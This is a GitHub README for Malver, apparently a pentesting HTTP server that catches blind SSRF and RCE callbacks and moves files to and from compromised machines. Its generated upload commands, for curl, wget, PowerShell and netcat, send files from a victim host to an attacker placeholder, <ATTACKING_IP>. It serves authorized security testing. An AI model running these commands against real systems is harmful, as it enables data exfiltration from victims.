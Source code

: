 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**icious Ser**ver**) is a lightweight HTTP server designed to simplify common tasks in penetration testing and bug bounty hunting. It allows security researchers to efficiently decode Base64 data, validate blind vulnerabilities, and transfer files to and from a compromised system.



## Features

- Base64 Decoding – Quickly decode attacker-controlled data.
- File Transfer – Upload/download files in engagements.
- Blind Vulnerability Testing – Use `/` to validate SSRF, RCE, or command injection.
- Configurable – Customize endpoint paths and directories via CLI.
- Logging – Outputs structured logs for tracking interactions.
- Upload Command Generator – Automatically generate ready-to-use upload commands for upload feature.



## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|



## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd@latest
```

This will install the malver binary in your Go bin directory.



## Usage

```bash
malver [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```



## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |
| `-upload-cmds` | `false` | Generate ready-to-use upload commands |
| `-ip` | `<ATTACKING_IP>` | Specify the attacker's IP address (used with -upload-commands) |
| `-file` | `<FILE_PATH>` | Specify the full path of the file to be uploaded (used with -upload-commands) |



## Example Use Cases

- Send a request to `/` and check if the target system can reach back.
- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`
- Retrieving files from a compromised machine using `/down/{filename}` to download files.
- Upload a shell or tool using the `/up` endpoint. Use `-upload-commands` to generate pre-configured upload commands that can be executed on the victim machine using various built-in tools.




### Generating Upload Commands

To quickly generate ready-to-use upload commands, use:

```bash
malver -upload-commands -ip <ATTACKING_IP> -file <FILE_PATH>
```

Example output:

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest (PowerShell)

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod (PowerShell)

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat (nc)

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```



## Logging

All requests are logged in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> - [<POST_DATA>] <ENDPOINT_SPECIFIC_MESSAGE>
```

This helps track interactions with the server, including query parameters, POST data, and decoded Base64 content.



## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
